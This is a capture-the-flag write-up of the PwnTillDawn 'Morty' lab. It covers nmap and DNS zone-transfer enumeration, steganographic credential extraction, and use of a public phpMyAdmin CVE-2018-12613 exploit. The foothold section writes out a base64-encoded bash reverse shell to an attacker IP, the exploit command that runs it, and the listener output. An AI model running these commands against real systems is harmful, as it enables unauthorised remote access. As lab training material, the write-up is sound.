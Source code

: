```yaml
---
title: "PwnTillDawn - Morty"
author: Nasrallah
description: ""
date: 2025-04-17 07:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, medium, steganography, cve, rce]
img_path: /assets/img/pwntilldawn/morty
image:
    path: morty.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Morty](https://online.pwntilldawn.com/Target/Show/84) from [PwnTillDawn](https://online.pwntilldawn.com/) is a challenge that involves using steganography to extract hidden files from images, followed by exploiting a remote code execution (RCE) vulnerability to gain a foothold.

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.57
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e8:60:09:66:aa:1f:e8:76:d8:84:16:18:1c:e4:ee:32 (RSA)
|   256 92:09:d3:0e:f9:47:48:03:9f:32:9f:0f:17:87:c2:a4 (ECDSA)
|_  256 1d:d1:b3:2b:24:dc:c2:8a:d7:ca:44:39:24:c3:af:3d (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 147   2020-06-10 11:25  note.html
|_
|_http-title: Index of /
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, first is 22 running SSH, 53 is DNS and finally 80 is an apache web server.

### Web

Let's browse to the website.

![webiste](1.png)

We found `note.html`, clicking on it gives us the following message.

```text
Morty,
if you read this: I've already configured your domain 'mortysserver.com' on this server, don't bother me with it anymore!!
-Rick 
```

We discovered the domain `mortysserver.com` that we need to add to our `/etc/hosts` file. We can do that using the following command.

```terminal
echo '10.150.150.57 mortysserver.com' | tee -a /etc/hosts
```

Now let's navigate to the domain.

![domain](2.png)

The site load an image of rick and morty with the text `Is this a password`, and we also notice the `Fl4sk#!` text in the image, could it be the password they are talking about? I'll make a note of that and continue

#### DNS

Since we have a DNS server and a domain let's see if we can find any other information.

Let's do a zone transfer using the following command.

```bash
dig axfr mortysserver.com @10.150.150.57 
```

```terminal
; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> axfr mortysserver.com @10.150.150.57
;; global options: +cmd
mortysserver.com.       900     IN      SOA     10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
mortysserver.com.       900     IN      NS      10.150.150.57.
rickscontrolpanel.mortysserver.com. 900 IN A    10.150.150.57
mortysserver.com.       900     IN      SOA     10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
;; Query time: 93 msec
;; SERVER: 10.150.150.57#53(10.150.150.57) (TCP)
;; WHEN: Thu Apr 17 08:50:34 +01 2025
;; XFR size: 4 records (messages 1, bytes 212)
```

We discovered the subdomain `rickscontrolpanel.mortysserver.com`, let's add it to /etc/hosts and browse to it.

![phpmyadmin](3.png)

We found the login page of `phpmyadmin`, I tried couple default credentials as web as the `Fl4sk#!` password we found but nothing worked.

#### Steganography

Looking back at the first domain, we see that the password is part of the image, here I guessed the image might be hiding something.

I downloaded the image using the following command.

```bash
wget http://mortysserver.com/screen.jpeg
```

First I'll use `exiftool` to check if there is any interesting metadata.

```terminal
└──╼[★]$ exiftool screen.jpeg
ExifTool Version Number         : 12.57
File Name                       : screen.jpeg
Directory                       : .
File Size                       : 204 kB
File Modification Date/Time     : 2025:04:16 23:10:39+01:00
File Access Date/Time           : 2025:04:16 23:10:39+01:00
File Inode Change Date/Time     : 2025:04:16 23:11:07+01:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Image Width                     : 1256
Image Height                    : 628
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1256x628
Megapixels                      : 0.789
```

Nothing really.

We'll move to steghide which is a tool that can help us extract any embedded files inside the image.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/morty]
└──╼[★]$ steghide extract -sf screen.jpeg
Enter passphrase: Fl4sk#!
wrote extracted data to "keytotheuniverse.txt".
                                                                                                                                                                                              
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/morty]
└──╼[★]$ cat keytotheuniverse.txt 
rick:WubbaLubbaDubDub1!
```

We got prompt for a password and I submitted the one we found `Fl4sk#!` and this managed to give us a file that holds some credentials.

Now back to `phpmyadmin` let's login with the newly found username/password.

![loggedin](4.png)

## **Foothold**

After loggin in we see the version of phpmyadmin running is `4.8.1`, a quick search on google we find an RCE [CVE-2018-12613](https://nvd.nist.gov/vuln/detail/cve-2018-12613).

The exploit I'll be using can be found at <https://www.exploit-db.com/exploits/50457>

```terminal
[★]$ python exploit.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got command execution, now let's get a shell.

I'll use the following bash rev shell and encode it with base64.

```bash
echo 'bash -i >& /dev/tcp/10.66.66.230/9001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC42Ni42Ni4yMzAvOTAwMSAwPiYxCg==
```

I'll setup a netcat listener and run the exploit again.

```bash
python exploit.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC42Ni42Ni4yMzAvOTAwMSAwPiYxCg==|base64 -d|bash'
```

I used echo to pass the encoded revshell to base64 -d which would decode it, then pipe it to bash to have it executed.

Now if we check our listener we will find the shell.

```terminal
[★]$ nc -lvnp 9001                                             
listening on [any] 9001 ...
connect to [10.66.66.230] from (UNKNOWN) [10.150.150.57] 43504
bash: cannot set terminal process group (1119): Inappropriate ioctl for device
bash: no job control in this shell
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$
```

Here the challenge ends and we are not required to do any privilege escalation unfortunately :(.

## **References**

<https://nvd.nist.gov/vuln/detail/cve-2018-12613>

<https://www.exploit-db.com/exploits/50457>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
